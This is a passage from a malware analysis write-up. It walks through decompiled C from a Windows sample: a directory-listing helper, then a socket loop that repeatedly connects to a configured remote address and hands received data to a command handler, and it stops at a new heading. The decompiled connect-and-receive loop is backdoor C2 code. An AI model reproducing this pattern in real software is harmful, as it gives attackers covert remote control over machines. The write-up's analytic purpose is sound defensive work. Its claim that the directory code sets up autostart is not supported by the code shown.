 ```c
          memcpy(&v0[v3], FindFileData.cFileName, 2 * v9);
        }
      }
    }
  }
  FindClose(FirstFileW);
  return v0;
}
```

After a rough look, we can analyze that this actually gets the current program directory's location. Therefore, this part's function is to set the current program to start automatically on boot.

However, this isn't very useful for analyzing the program's actual behavior, so we can ignore it and continue to the next part:

```c
        *(_OWORD *)&hReadPipe = 0i64;
        *(_OWORD *)&hObject = 0i64;
        *(_OWORD *)&hThread = 0i64;
        xmmword_140008730 = 0i64;
        if ( WSAStartup(0x202u, &WSAData) )
          return 0;
        hKey.sa_family = 2;
        *(_WORD *)hKey.sa_data = htons(*((_WORD *)cp + 32));
        *(_DWORD *)&hKey.sa_data[2] = inet_addr(cp);
        v15 = socket(2, 1, 6);
        while ( connect(v15, &hKey, 16) == -1 )
          ;
        *((_QWORD *)&xmmword_140008730 + 1) = v15;
        v16 = malloc(0x400ui64);
        memset(v16, 0, 0x400ui64);
        while ( recv(*((SOCKET *)&xmmword_140008730 + 1), (char *)v16, 1024, 0) )
        {
          sub_1400020C0((LPCSTR)v16);
          memset(v16, 0, 0x400ui64);
        }
```

This part is the core of the socket communication receiving section. Let's focus on this part:

```c
        while ( recv(*((SOCKET *)&xmmword_140008730 + 1), (char *)v16, 1024, 0) )
        {
          sub_1400020C0((LPCSTR)v16);
          memset(v16, 0, 0x400ui64);
        }
```

We can see that after receiving data, `sub_1400020C0` is responsible for processing this data, so the program's core logic is likely within it.

## Receiving Function Analysis
